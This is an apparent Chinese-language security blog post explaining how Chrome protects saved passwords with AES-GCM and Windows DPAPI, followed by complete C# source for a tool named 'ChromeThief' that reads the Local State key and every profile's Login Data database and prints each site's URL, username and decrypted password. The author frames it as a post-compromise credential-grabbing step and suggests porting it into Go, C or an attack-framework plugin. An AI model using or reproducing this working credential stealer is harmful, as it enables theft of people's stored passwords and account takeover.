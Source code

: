 ```yaml
---
layout: post
title: 渗透取证 -- Chrome浏览器密码凭据窃取和C#实现
date: 2023-05-12
categories: [取证, windows DPAPI]

---
```


# 文前漫谈

权限维持的重要步骤，抓密码。本文通过对Windows DPAPI的基本认识和chrome密码加密机制的理解基础上，编写C#代码实现对chrome浏览器密码的解密

实际利用下，最好是通过go，c/c++这种改写或者编到cs的插件中，基于.net平台还是有点麻烦，得准备两三个版本。





# Chrome的加密过程

* 将用户保存的账户密码使用AES GCM加密
* 将AES加密密钥通过Windows DPAPI加密保存在名为Local State的文件中，文件以json格式存储。
* 将初始化向量与密文连接起来，并将它们保存在名为Login Data的文件中，文件以sqlite数据库形式存储。





##  Local State——加密密钥存放的位置

```
%USERPROFILE%\AppData\Local\Google\Chrome\User Data\Login Data
```

文件以json格式储存，encrypted_key 的值就是Windows dpapi加密过后的AES密钥

<img src="/img/image-20230628135158057.png" alt="image-20230628135158057" style="zoom:80%;" />



## Login Data——密文存放的位置

Sqlite3数据库

```
%USERPROFILE%\AppData\Local\Google\Chrome\User Data\Default\Login Data
```

数据库结构，我们需要注意的几个字段的值

```
origin_url: 起始url
action_url: form表单提交的地址
username_value  用户名字段
password_value 密码字段
```

origin_url和action_url的选择需要注意，有时候用户手动添加的账户密码没有action_url字段的值。

<img src="/img/image-20230628140800353.png" alt="image-20230628140800353" style="zoom:80%;" />



## AES-解密过程

AES-GCM解密不仅需要密钥，还需要偏移量。我们从Local Data数据库提取我们需要的字段，ciphey的值是密码AES加密后的值

<img src="/img/image-20230628143438678.png" alt="image-20230628143438678"  />

它包含了两个重要的值：

* Initialization vector （初始化向量）
* Encrypted passwords （加密后的密码）

用python代码解释这两者的位置，

```python
initialisation_vector = ciphertext[3:15]
encrypted_password = ciphertext[15:-16]
```

按照上面的流程实现代码如下



# C# 代码实现

为什么用C#？

刚开始想写个powershell的脚本调用的，但是实战装库等情况复杂。可能还是类C的实现实用

```
using System;
using System.Text;
using System.IO;
using System.Data.SQLite;
using System.Linq;
using Org.BouncyCastle.Crypto.Engines;
using Org.BouncyCastle.Crypto.Modes;
using Org.BouncyCastle.Crypto.Parameters;
using System.Security.Cryptography;


namespace ChromeThief
{
    class Program
    {
        // GLOBAL CONSTANT
        private static readonly string CHROME_PATH_LOCAL_STATE = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), @"Google\Chrome\User Data\Local State");
        private static readonly string CHROME_PATH = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), @"Google\Chrome\User Data");

        private static String DecryptPassword(byte[] encryptedPassword, byte[] iv, byte[] secretKey)
        {
            string sR = string.Empty; 
            try
            {
                GcmBlockCipher cipher = new GcmBlockCipher(new AesEngine());
                AeadParameters parameters = new AeadParameters(new KeyParameter(secretKey), 128, iv, null);

                cipher.Init(false, parameters);
                byte[] plainBytes = new byte[cipher.GetOutputSize(encryptedPassword.Length)];
                Int32 retLen = cipher.ProcessBytes(encryptedPassword, 0, encryptedPassword.Length, plainBytes, 0);
                cipher.DoFinal(plainBytes, retLen);

                sR = Encoding.UTF8.GetString(plainBytes).TrimEnd("\r\n\0".ToCharArray());
                //Console.WriteLine(sR);
                return sR;
            }
            catch (Exception e)
            {
                Console.WriteLine($"{e.Message}");
                Console.WriteLine("[ERR] Unable to decrypt, Chrome version <80 not supported. Please check.");
                return null;
            }
        }


        private static byte[] GetSecretKey()
        {
            try
            {
                // Get secretkey from chrome local state
                var localState = File.ReadAllText(CHROME_PATH_LOCAL_STATE);
                dynamic json = Newtonsoft.Json.JsonConvert.DeserializeObject(localState);
                String key = json.os_crypt.encrypted_key;
                byte[] encryptedKeyBytes = Convert.FromBase64String(key);
                //Console.WriteLine(encryptedKeyBytes);
                byte[] encryptedKey = new byte[encryptedKeyBytes.Length - 5];
                Array.Copy(encryptedKeyBytes, 5, encryptedKey, 0, encryptedKey.Length);
                byte[] secretKey = ProtectedData.Unprotect(encryptedKey, null, DataProtectionScope.LocalMachine);
                //Console.WriteLine(BitConverter.ToString(secretKey));  
                return secretKey;
            }
            catch (Exception e)
            {
                Console.WriteLine($"{e.Message}");
                Console.WriteLine("[ERR] Chrome secretkey cannot be found");
                return null;
            }
        }
        
                static void Main(string[] args)
        {
            //Console.WriteLine(CHROME_PATH_LOCAL_STATE);
            //Console.WriteLine(CHROME_PATH);
            var folders = Directory.GetDirectories(CHROME_PATH, "Profile*").Union(Directory.GetDirectories(CHROME_PATH, "Default"));
            var secretKey = GetSecretKey();
            //C: \Users\86176\AppData\Local\Google\Chrome\User Data\Default

            foreach (var folder in folders)	
            {
                //Console.WriteLine(folder);
                var chromePathLoginDb = Path.Combine(folder, "Login Data");
                string connectionString = String.Format("Data Source={0};Version=3;", chromePathLoginDb);
                var conn = new SQLiteConnection(connectionString);
                conn.Open();
                SQLiteCommand cmd = new SQLiteCommand("SELECT origin_url, username_value, password_value FROM logins", conn);
                var reader = cmd.ExecuteReader();
                while (reader.Read())
                {
                    var url = reader.GetString(0);
                    var username = reader.GetString(1);
                    var ciphertext = (byte[])reader.GetValue(2);
                    //Console.WriteLine(ciphertext);

                    if (!string.IsNullOrEmpty(url) && !string.IsNullOrEmpty(username) && ciphertext != null)
                    {
                        // Filter the initialisation vector & encrypted password from ciphertext
                        //byte[] iv = new byte[12];
                        //Array.Copy(ciphertext, 3, iv, 0, 12);
                        ////System.Array.Copy(encryptedData, 3 + iv.Length, ciphertextTag, 0, ciphertextTag.Length);
                        //byte[] encryptedPassword = new byte[ciphertext.Length - 15 - 16];
                        //Array.Copy(ciphertext, 15, encryptedPassword, 0, ciphertext.Length - 15 - 16);
                        byte[] iv = new byte[12];
                        byte[] ciphertextTag = new byte[ciphertext.Length - 3 - iv.Length];

                        System.Array.Copy(ciphertext, 3, iv, 0, iv.Length);
                        System.Array.Copy(ciphertext, 3 + iv.Length, ciphertextTag, 0, ciphertextTag.Length);
                        // Use AES algorithm to decrypt the password
                        Console.WriteLine($"URL: {url}\nUser Name: {username}");
                        var decryptedPassword = DecryptPassword(ciphertextTag, iv, secretKey);
                        Console.WriteLine($"Password: {decryptedPassword}\n");

                    }
                }
            }
        }

    }
}

```

